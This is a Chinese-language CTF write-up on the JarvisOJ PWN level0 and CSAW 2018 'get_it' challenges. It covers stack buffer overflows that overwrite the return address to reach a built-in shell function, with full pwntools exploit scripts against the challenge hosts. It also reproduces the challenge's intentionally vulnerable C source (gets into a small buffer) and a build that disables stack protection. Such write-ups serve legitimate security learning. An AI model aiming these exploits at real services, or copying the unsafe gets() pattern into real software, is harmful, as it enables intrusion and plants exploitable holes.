






# JarvisOJ-PWN-Level0

## 0x01 文件查看

```shell
file level0
```


检查之后发现文件是64位的elf程序

```shell
checksec level0
```


开了NX保护，可以防止栈上的数据运行，不过该题不需要运行栈上的shellcode，因为程序自带了shell函数

把程序仍到ida里面，按F5查看


查看vulnerable_function函数


程序定义了0x80长度的buf，但是read读取了0x200的长度，典型的缓冲区溢出

除此之外还有一个calllsystem函数，是程序自带的shell


这样的利用原理就是将通过溢出的信息将ret的地址复写成callsystem的地址


callsystem的地址是0000000000400596

payload的构造,因为是64位程序，所以ebp的长度是0x8
```python
callsystem_addr = 0x0000000000400596 
payload = "A"*(0x80+0x8)+p64(callsystem_addr)
```

最终程序就是
```
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9881)

callsystem_addr = 0x0000000000400596

payload = "A"*(0x80+0x8)+p64(callsystem_addr)

conn.send(payload)

conn.interactive()
```


CSAW 2018 有一道类似的题目 get_it
先进行常规检查

64位程序

开了NX禁止buf上的代码运行
拖到IDA里面按F5运行


存在gets函数，从代码上看，定义的buf大小是0x20还要再加上ebp的0x8就是返回地址，
函数里面有give_shell的函数

地址是0x00000000004005B6

最后的代码就是
```python
from pwn import *

conn = remote('pwn.chal.csaw.io',9001)
conn.recvline()
payload = "a"*(0x20+0x8)+p64(0x00000000004005B6)

conn.send(payload)
conn.interactive()

```





顺便下载了他的Dockerfile环境

Dockerille 
```shell
FROM ubuntu:16.04
MAINTAINER Sai Vegasena

#installation
RUN apt-get update && apt-get install -y \
    apt-utils \
    build-essential \
    socat

#user
WORKDIR /app
ADD . /app
RUN chmod -R 700 /app

EXPOSE 1437

ENTRYPOINT ["socat", "TCP-LISTEN:1437,reuseaddr,fork","EXEC:/app/run.sh"]
```

run.sh
```
#!/bin/bash

cat art.txt && ./get_it
```

art.txt


get_it.c
```
#include <stdio.h>
#include <stdlib.h>

void give_shell(){
    system("/bin/bash");
}

int main(int argc, char ** argv){
    char buf[20];
    puts("Do you gets it??");
    gets(buf);
}
```

Makefile

```shell
build:
    gcc get_it.c -o get_it -fno-stack-protector
```

